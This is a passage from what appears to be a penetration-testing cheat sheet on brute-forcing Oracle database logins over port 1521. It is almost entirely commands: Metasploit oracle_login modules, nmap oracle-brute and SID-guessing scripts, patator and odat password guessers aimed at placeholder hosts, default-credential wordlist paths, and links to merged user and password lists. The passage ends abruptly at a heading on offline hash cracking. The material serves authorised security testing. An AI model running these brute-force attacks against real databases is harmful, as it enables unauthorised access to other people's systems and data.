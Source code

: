 ```bash
oscan: /usr/share/oscanner/accounts.default (169 lines)
use admin/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv (598 lines)
use scanner/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt (568 lines)
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL 10.10.x.x
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 10.10.x.x
nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 10.10.x.x
nmap -sT -p 1521 -d -Pn --script-trace --script oracle-brute --script-args "oracle-brute.sid=orcl, brute.credfile=/usr/share/nmap/nselib/data/oracle-default-accounts.lst" 10.10.x.x # /usr/share/nmap/nselib/data/oracle-default-accounts.lst (687 lines)
```

I have mixed all of them and removed duplicates:

[users-oracle.txt](https://secybr.com/assets/file/users-oracle.txt)

[pass-oracle.txt](https://secybr.com/assets/file/pass-oracle.txt)

<h3>Brute Force</h3>

Now, that you know a valid SID and valid credentials. To connect to the database you need the tool: *sqlplus* 

```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

In order to use `oracle_login` with `patator` you need to install:

```bash
pip3 install cx_Oracle --upgrade
```

Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):1

To login using known credentials:
